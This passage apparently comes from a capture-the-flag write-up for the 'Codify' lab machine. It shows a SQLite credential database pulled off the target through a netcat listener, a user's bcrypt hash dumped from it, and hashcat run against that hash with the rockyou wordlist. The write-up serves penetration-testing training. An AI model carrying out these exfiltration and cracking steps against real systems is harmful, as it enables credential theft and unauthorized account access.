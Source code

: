We now have the file on our local machine.

```shell
labadmin@labmachine:~/codify$ nc -lnvp 6001 > tickets.db
Listening on 0.0.0.0 6001
Connection received on 10.10.11.239 58584

labadmin@labmachine:~/codify$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17

labadmin@labmachine:~/codify$
```

To work with the database file we use `sqlite3`.

```shell
labadmin@labmachine:~/codify$ sqlite3 tickets.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite>
```

The sqlite3 command to list the tables are `.tables`

```shell
sqlite> .tables
tickets  users
```

There is a table named users which can contain credentials. We dump the content with `select statement.

```shell
sqlite> select * from users;
3|joshua|[OMITTED]
```

We get the hash for the user Joshua.

Grep for `$2` in hashcat help and we get that it is a `bcrypt` hash.

```shell
labadmin@labmachine:~/codify$ hashcat --help | grep '$2'
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
```

We see in above output that bcrypt is hashcat hash-type 3200 and can be cracked with using `-m 3200` option.

To crack it we need to write the hash into a file and then execute hashcat with it. The hash is the string starting with `$2a$...`. In other words, we shall not enter `3|joshua|` into the file.

```shell
labadmin@labmachine:~/codify$ echo '[OMITTED]' > joshua.hash
```

We now crack the hash using hashcat with rockyou.txt word list.

```shell
labadmin@labmachine:~/codify$ hashcat -a 0 -m 3200 joshua.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

[OMITTED]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
```